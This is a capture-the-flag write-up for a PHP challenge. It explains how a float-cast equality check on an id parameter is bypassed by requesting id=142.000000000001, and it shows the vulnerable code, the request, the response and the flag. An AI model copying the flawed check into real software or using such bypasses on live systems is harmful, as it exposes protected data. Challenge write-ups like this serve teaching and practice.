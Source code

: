 # PHP Basics

## Wirte-Up

When accessing the url, we can see a row with `id` title in it.

sqlmap check doesn't work on this challenge and find that `id` is not injectable.

when we do the request with an `id` para, we can see that it gives us the object from the database and prints it out. And with the description, we need to access to the object with `id` of 142.

When performing with the parameter and 142 value :

```
http://34.160.225.73/?id=142
```

here is what we got :

```
 id :Invalid id (142).
```

Indeed, when we check the code, here what we see :

```php
<?php

$id = @(float)$_GET['id'];
if ($id == 142) {
  echo "Invalid ID";
} else {
  // Fetch item from database, knowing that item of id 142 contains the flag
}

?>
```

So, our job is to bypass the check, but with giving the value `142` as always.

When checking php types, we can see that php when checking floats do some convertions, sometimes the values get to be equal when the float part is too small, and not when a little bi longer.

However, finding the right value might give us the flag :

```
http://34.160.225.73/?id=142.000000000001
```

we get this page :

```
<html>
<head></head>
<body>
<hr>
id :ID: 142
Password: nitectf{u_cr4cK3d_Th3_pHp_c0d3}
<hr>
</body>
</html>
```

**Note :** Note that this is not a type juggling vulnerability, but kind of type convertion vulnerability

## Flag

nitectf{u_cr4cK3d_Th3_pHp_c0d3}

## More Information

https://www.php.net/manual/fr/language.operators.comparison.php
https://www.php.net/manual/en/language.types.float.php
https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09
https://www.invicti.com/blog/web-security/php-type-juggling-vulnerabilities/
https://www.invicti.com/blog/web-security/type-juggling-authentication-bypass-cms-made-simple/